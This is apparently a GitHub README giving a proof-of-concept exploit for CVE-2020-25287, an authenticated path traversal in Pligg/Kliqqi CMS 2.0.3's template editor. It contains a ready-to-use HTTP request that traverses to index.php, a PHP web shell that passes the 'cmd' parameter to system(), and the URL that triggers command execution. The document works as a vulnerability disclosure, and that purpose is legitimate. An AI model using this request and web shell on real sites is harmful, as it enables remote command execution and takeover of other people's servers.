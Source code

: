 # pligg

## pligg 2.0.3 - CVE-2020-25287 

* Description : We can acces to anyfile using `the_file` parameter by template editor menu because of no check on extension and then create webshell into existing php file for exemple 
* Affected version : 2.0.3

### Information

To make this PoC, i just installed the sofware(`https://github.com/Kliqqi-CMS/Kliqqi-CMS`) using WAMP on Windows

* Vulnerability Type : Remote command execution (Authenticated RCE)

### POC 

<img width="1280" alt="receStore" src="https://raw.githubusercontent.com/jenaye/pligg/master/start.png">

Go to `/admin/admin_editor.php` intercept the request and change the path to file.


for exemple to get `index.php` of application :

<img width="1280" alt="receStore" src="https://raw.githubusercontent.com/jenaye/pligg/master/getindex.png">



```
POST /admin/admin_editor.php HTTP/1.1
Host: kliqqi
Content-Length: 33
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://kliqqi
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://kliqqi/admin/admin_editor.php
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: panelState=CollapseManage%7CCollapseSettings%7CCollapseTemplate; PHPSESSID=lfkc3gtrv5o1golmt5md3; mnm_user=Admin; mnm_key=QWRtaW46MjI0R2dEVTAxZncxZzpl
Connection: close

the_file=..%2Findex.php&open=Open
```


just click on "show response in browser", and edit the file to suit your needs 

<img width="1280" alt="receStore" src="https://raw.githubusercontent.com/jenaye/pligg/master/write.png">

for exemple : 

```php
  if($_GET['cmd']){
    system($_GET['cmd']);
}
```

finaly go to `website.fr?cmd=dir`.

<img width="1280" alt="receStore" src="https://raw.githubusercontent.com/jenaye/pligg/master/rce.png">
